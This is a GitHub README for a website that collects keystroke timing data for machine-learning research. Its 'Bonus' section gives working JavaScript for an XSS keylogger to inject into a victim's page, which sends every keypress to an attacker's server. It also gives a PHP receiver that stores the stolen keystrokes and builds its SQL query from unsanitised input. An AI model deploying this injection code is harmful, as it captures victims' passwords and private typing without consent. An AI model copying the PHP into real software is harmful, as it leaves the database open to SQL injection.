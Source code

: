 <!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->
[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![Stargazers][stars-shield]][stars-url]
[![Issues][issues-shield]][issues-url]
[![MIT License][license-shield]][license-url]

<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/reevesba/keystrokebiometrics.xyz">
    <img src="assets/img/logo.png" alt="Logo">
  </a>

  <p align="center">
    Collects keystroke data using the LAMP stack. 
    <br />
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://keystrokebiometrics.xyz">View Demo</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Report Bug</a>
    ·
    <a href="https://github.com/reevesba/keystrokebiometrics.xyz/issues">Request Feature</a>
  </p>
</p>

<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project
![assets/img/site-screenshot.png](assets/img/site-screenshot.png)

This simple website was created to collect keystroke data for another one of my projects. For each keystroke, a record is inserted into a MySQL table. Here is the table schema: 

<p align="center">
  <a href="#">
    <img src="assets/img/table-schema.png" alt="Logo">
  </a>
</p>

This will be used to create machine learning models. My current plan is to use this data to create features for an unsupervised learning model where users will hopefully be separated into clusters. In addition, I will be collecting bot keystroke data to create a supervised learning model that will distinguish between bot and not bot.

### Built With
<a href="https://www.linuxfoundation.org/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/linux.svg" alt="linux">
</a>
<a href="https://www.apache.org/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/apache.svg" alt="apache">
</a>
<a href="https://www.mysql.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/mysql.svg" alt="mysql">
</a>
<a href="https://www.php.net/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/php.svg" alt="php">
</a>
<a href="https://www.javascript.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/javascript.svg" alt="javascript">
</a>
<a href="https://getbootstrap.com/" target="_blank">
  <img align="left" width="32px" src="https://cdn.jsdelivr.net/npm/simple-icons@3.13.0/icons/bootstrap.svg" alt="bootstrap">
</a>

<br />
<br />

<!-- GETTING STARTED -->
## Getting Started
This repository can be cloned onto your server to quickly start collecting user keystroke information.

### Prerequisites
Configure your web server. Here are some useful articles for configuring a LAMP server. Of course, you have other options as well. 

- [Installing LAMP Stack on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-install-linux-apache-mysql-php-lamp-stack-ubuntu-18-04)
- [Securing Apache on Ubuntu 18.04](https://www.digitalocean.com/community/tutorials/how-to-secure-apache-with-let-s-encrypt-on-ubuntu-18-04)
[]()

### Installation
1. Clone the repo into your /var/www directory or virtual host directory.
   ```sh
   git clone https://github.com/reevesba/keystrokebiometrics.xyz
   ```
<!-- USAGE EXAMPLES -->
## Usage
The usage of this site is straighforward - use it to collect keystroke data. 

### Bonus
Portions of this project can be used to create a XSS keylogger. <strong>Any malicious use of this software is not recommended and should be for educational purposes only. Be sure to have the permission of all parties involved.</strong>

For an XSS keylogging attack, simply inject the following JavaScript into the victim's DOM.

<details>
<summary>View JavaScript</summary>

```
(function() {
    const url = 'https://yourserverurl/assets/php/keylogger.php?';
    const header = 'Content-type';
    const value = 'application/x-www-form-urlencoded';

    const postData = (event) => {
        // Create request object
        if (window.XMLHttpRequest) {
            var request = new XMLHttpRequest();
        } else {
            var request = new ActiveXObject('Microsoft.XMLHTTP');
        }

        // Setup transmit data
        var uuid = select('#uuid').value;
        var altKey = event.altKey ? 1 : 0;
        var ctrlKey = event.ctrlKey ? 1 : 0;
        var shiftKey = event.shiftKey ? 1 : 0;

        var data = 'uuid=' + uuid + 
                   '&keyEvent=' + event.type + 
                   '&keyCode=' + event.keyCode + 
                   '&keyChar=' + event.key + 
                   '&altKey=' + altKey + 
                   '&ctrlKey=' + ctrlKey + 
                   '&shiftKey=' + shiftKey + 
                   '&timestamp=' + new Date().getTime();

        // Uncomment to enable debugging
        //console.log(data);

        // Send data to server
        request.open('POST', url, true);
        request.setRequestHeader(header, value);
        request.onreadystatechange = function() {
            // Uncomment to enable debugging
            //console.log(this.responseText);
        }
        request.send(data);
    };

    window.addEventListener('keydown', (event) => {
        postData(event);
    });
})()
```
</details>

On your server, create a PHP file to recieve the data. I called mine keylogger.php, but you can name it whatever you want. Just be sure to update the URL in the JavaScript file. Add the following code to the file. As you may notice, you will need to to set a couple of environment variables with your MySQL credentials.

<details>
<summary>View PHP</summary>

```
<?php
// Establish database connection
$username = $_ENV['MYSQL_USER'];
$password = $_ENV['MYSQL_PASSWORD'];

$connection = mysqli_connect('localhost', $username, $password, 'production');

if (mysqli_connect_errno()) {
    echo "Failed to connect to MySQL: " . mysqli_connect_error();
}

// Collect post data
$uuid = $_POST['uuid'];
$keyEvent = $_POST['keyEvent'];
$keyCode = $_POST['keyCode'];
$keyChar = $_POST['keyChar'];
$altKey = $_POST['altKey'];
$ctrlKey = $_POST['ctrlKey'];
$shiftKey = $_POST['shiftKey'];
$timestamp = $_POST['timestamp'];

// Insert data
if (!mysqli_query($connection, "INSERT INTO KEYSTROKE_METRICS (`uuid`, `key_event`, `key_code`, `key_char`, `alt_key`, `ctrl_key`, `shift_key`, `timestamp`) VALUES ('$uuid', '$keyEvent', '$keyCode', '$keyChar', '$altKey', '$ctrlKey', '$shiftKey', '$timestamp')")) {
    echo("Error description: " . mysqli_error($connection));
}

// Close connection
mysqli_close($connection);
?>
```
</details>

<!-- ROADMAP -->
## Roadmap
See the [open issues](https://github.com/reevesba/keystrokebiometrics.xyz/issues) for a list of proposed features (and known issues).

<!-- CONTRIBUTING -->
## Contributing
Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/newFeature`)
3. Commit your Changes (`git commit -m 'adding new feature xyz'`)
4. Push to the Branch (`git push origin feature/newFeature`)
5. Open a Pull Request

<!-- LICENSE -->
## License
Distributed under the GPLv3 License. See `LICENSE` for more information.

<!-- CONTACT -->
## Contact
Bradley Reeves - reevesbra@outlook.com

Project Link: [https://github.com/reevesba/keystrokebiometrics.xyz](https://github.com/reevesba/keystrokebiometrics.xyz)

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[contributors-url]: https://github.com/reevesba/keystrokebiometrics.xyz/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[forks-url]: https://github.com/reevesba/keystrokebiometrics.xyz/network/members
[stars-shield]: https://img.shields.io/github/stars/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[stars-url]: https://github.com/reevesba/keystrokebiometrics.xyz/stargazers
[issues-shield]: https://img.shields.io/github/issues/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[issues-url]: https://github.com/reevesba/keystrokebiometrics.xyz/issues
[license-shield]: https://img.shields.io/github/license/reevesba/keystrokebiometrics.xyz.svg?style=for-the-badge
[license-url]: https://github.com/reevesba/keystrokebiometrics.xyz/blob/master/LICENSE.txt

